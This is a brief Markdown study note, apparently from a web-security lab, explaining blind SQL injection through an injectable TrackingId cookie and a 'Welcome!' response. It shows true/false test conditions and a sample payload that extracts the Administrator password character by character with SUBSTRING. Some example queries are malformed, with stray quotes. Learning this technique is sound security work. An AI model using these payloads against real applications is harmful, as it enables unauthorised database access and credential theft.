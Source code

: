 ```yaml
---
Title: Blind SQLi
tags:
  - SQLi
---
```

Blind SQL is not necessarily being "blind", but rather looking at other intricacies the application returns whenever you inject a query. 

For example, we have this vulnerable cookie.
```
Cookie: TrackingId=abcdefghijklmnopqrstuvwxyz
```
> [!The query that the TrackingId uses ]
> ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz'

A successful query will return "Welcome!", and an unsuccessful one will return nothing. We can exploit this functionality by injecting arbitrary sql queries, and constantly checking if the query returns "Welcome!" or not.

> [!Example]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='1
> -- above returns true
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='2
> -- above returns false

> [!Sample payload]
> ```sql
> -- SUBSTRING(<string>, )
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm



